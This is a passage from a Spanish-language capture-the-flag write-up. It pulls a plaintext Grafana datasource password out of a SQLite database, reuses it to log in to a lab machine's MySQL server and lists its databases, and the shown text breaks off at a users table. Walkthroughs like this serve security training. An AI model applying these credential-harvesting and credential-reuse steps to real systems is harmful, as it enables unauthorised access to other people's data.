 ```console
, `updated` DATETIME NOT NULL
, `with_credentials` INTEGER NOT NULL DEFAULT 0, `secure_json_data` TEXT NULL, `read_only` INTEGER NULL, `uid` TEXT NOT NULL DEFAULT 0);
CREATE INDEX `IDX_data_source_org_id` ON `data_source` (`org_id`);
CREATE UNIQUE INDEX `UQE_data_source_org_id_name` ON `data_source` (`org_id`,`name`);
CREATE UNIQUE INDEX `UQE_data_source_org_id_uid` ON `data_source` (`org_id`,`uid`);
CREATE INDEX `IDX_data_source_org_id_is_default` ON `data_source` (`org_id`,`is_default`);
```

> DataSource is a name given to the connection set up to a database from a server
{: .prompt-tip}

> Extract database credentials

```console
sqlite> .mode column
sqlite> .header on
sqlite> SELECT user, password, database FROM data_source;
user     password                    database
-------  --------------------------  --------
grafana  dontStandSoCloseToMe63221!  grafana
```

> Aquí puedes encontrar algunos comandos básicos de `SQLite`: [https://www.sqlitetutorial.net/sqlite-commands/](https://www.sqlitetutorial.net/sqlite-commands/)
{: .prompt-info}

Con estas credenciales nos conectamos a la base de datos que enumeramos anteriormente con `nmap`, y extraemos las credenciales del usuario `developer`:

```console
❯ mysql -h '10.10.11.183' -u 'grafana' -p grafana
Enter password:       
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 66
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)
                                              
Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
                                                                                             
MySQL [grafana]> show schemas;                                                               
+--------------------+
| Database           |
+--------------------+            
| grafana            |    
| information_schema |    
| mysql              |    
| performance_schema |    
| sys                |    
| whackywidget       |  
+--------------------+
6 rows in set (0.112 sec)                                                                                                                             
                                                                                             
MySQL [grafana]> use whackywidget;                                                           
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
                                                                                             
Database changed        
MySQL [whackywidget]> show tables;
+------------------------+                                                                                                                                                                 
| Tables_in_whackywidget |                  
+------------------------+                  
| users                  |                  
```
